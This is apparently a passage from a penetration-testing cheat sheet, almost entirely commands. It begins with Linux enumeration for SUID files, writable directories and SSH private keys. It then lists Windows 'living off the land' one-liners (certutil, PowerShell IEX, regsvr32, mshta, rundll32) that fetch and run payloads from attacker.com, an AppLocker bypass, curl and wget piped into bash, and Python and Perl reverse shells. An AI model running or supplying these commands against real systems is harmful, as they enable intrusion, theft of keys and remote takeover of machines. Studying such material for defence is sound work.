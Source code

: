 ```bash
systemctl list-units --type=service
service --status-all

# SUID/SGID files
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Writable directories
find / -writable -type d 2>/dev/null

# SSH keys
find / -name id_rsa 2>/dev/null
find / -name id_dsa 2>/dev/null
```

## Living Off The Land (LOLBins)

### Windows LOLBins

```powershell
# Download file with certutil
certutil -urlcache -split -f http://attacker.com/tool.exe tool.exe

# Download with PowerShell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"

# Execute with regsvr32
regsvr32 /s /n /u /i:http://attacker.com/script.sct scrobj.dll

# Execute with mshta
mshta http://attacker.com/payload.hta

# Execute with rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1');")

# Bypass AppLocker with InstallUtil
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U payload.exe
```

### Linux LOLBins

```bash
# Download with curl
curl http://attacker.com/tool.sh | bash

# Download with wget
wget -O- http://attacker.com/tool.sh | bash

# Execute with Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Execute with Perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
